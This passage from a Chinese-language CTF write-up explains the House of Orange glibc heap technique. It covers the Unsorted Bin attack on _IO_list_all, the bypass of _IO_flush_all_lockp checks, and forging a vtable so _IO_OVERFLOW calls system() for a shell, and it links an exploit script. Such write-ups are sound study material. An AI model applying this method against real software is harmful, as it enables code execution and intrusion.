就会使得`Chunk -> bk -> fd` == > `_IO_list_all`指向Unsorted Bin ，即bin_at(1)，而chunk由于`size`被设置为`0x61`被扔到Small Bin中。这里设置为`0x61`是有原因的。之后再说。

完成Unsorted Bin Attack之后，`malloc`并没有结束，Unsorted Bin中会继续检查`chunk->bk`,

```c
victim = unsorted_chunks (av)->bk
```

但是由于此次的chunk是`_IO_list_all - 0x10`，不会通过以下检测，触发`Abort`。

```c
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
    || __builtin_expect (victim->size > av->system_mem, 0))
  malloc_printerr (check_action, "malloc(): memory corruption",
                   chunk2mem (victim), av);
```

按照上图的流程会一路进入`_IO_flush_all_lockp`。

我们的目的是需要调用`_IO_OVERFLOW`，就要绕过在`_IO_flush_all_lockp`中的检测：

```c
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
     || (_IO_vtable_offset (fp) == 0
         && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                              > fp->_wide_data->_IO_write_base))
     )
    && _IO_OVERFLOW (fp, EOF) == EOF)
  result = EOF;
```

所以需要满足：

- `fp->_mode` <= 0
- `fp->_IO_write_ptr > fp->_IO_write_base`

最后伪造`vtable`使得`_IO_OVERFLOW`指向`system()`，Fake File的开头修改为`/bin/sh\x00`，即可拿到shell。

回想我们操作`Unsorted Bin`的`Old Top Chunk`的剩余部分时，当`_IO_list_all`被设置为Unsorted Bin地址之后，如图，第一个`IO_FILE`即Unsorted Bin，`IO_FILE`结构中的`chian`字段，位于`0x60`偏移处,他指向的是下一个`IO_FILE`结构体，假如我们可以如果可以控制`chian`，就可以再次指定`io_file`的位置，另外在偏移`0x60`处正好是，`small chunk`中大小`0x60`的地方，所以`upgrade`时候需要把`unsortbin`设置为`0x61`大小。

因为第一个分配在`main_arena`的`IO_FILE_plus`结构的`fp->mode`等值不符合要求，就会通过`chains`跳转到就下一个`IO_FILE_plus`就是我们之前设置的`Old Top Chunk`的剩余部分。



##### 4) [EXP](https://github.com/scwuaptx/CTF/blob/master/2016-writeup/hitcon/houseoforange.py)






